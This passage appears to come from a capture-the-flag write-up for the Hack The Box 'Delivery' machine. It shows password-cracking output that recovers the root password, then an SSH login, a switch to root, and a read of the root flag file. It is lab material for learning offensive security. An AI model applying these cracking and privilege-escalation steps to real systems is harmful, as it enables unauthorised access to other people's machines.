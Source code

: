 ```bash
PleaseSubscribe!21 (root)
3 1g 0:00:00:02 DONE (2021-04-27 04:09) 0.3906g/s 19.92p/s 19.92c/s 19.92C/s PleaseSubscribe!11..PleaseSubscribe!21
2 0g 0:00:00:16 73.37% (ETA: 04:09:49) 0g/s 22.93p/s 22.93c/s 22.93C/s PleaseSubscribe!68@..PleaseSubscribe!69\
4 0g 0:00:00:16 74.04% (ETA: 04:09:49) 0g/s 23.07p/s 23.07c/s 23.07C/s PleaseSubscribe!69>..PleaseSubscribe!70^
5 0g 0:00:00:16 75.86% (ETA: 04:09:49) 0g/s 23.62p/s 23.62c/s 23.62C/s PleaseSubscribe!71{..PleaseSubscribe!72*
1 0g 0:00:00:16 73.92% (ETA: 04:09:49) 0g/s 23.07p/s 23.07c/s 23.07C/s PleaseSubscribe!69=..PleaseSubscribe!69~
Waiting for 4 children to terminate
Session aborted
```

Changed account to super user:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Delivery]
└─$ ssh maildeliverer@10.10.10.222
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Apr 26 18:31:05 2021 from 10.10.14.24
maildeliverer@Delivery:~$ su root
Password: 
root@Delivery:/home/maildeliverer# whoami && hostname && cat /root/root.txt && ip a
root
Delivery
1df26a288718072c85da8349534ed570
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:cb:0a brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.222/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:cb0a/64 scope global dynamic mngtmpaddr 
       valid_lft 86036sec preferred_lft 14036sec
    inet6 fe80::250:56ff:feb9:cb0a/64 scope link 
       valid_lft forever preferred_lft forever
```
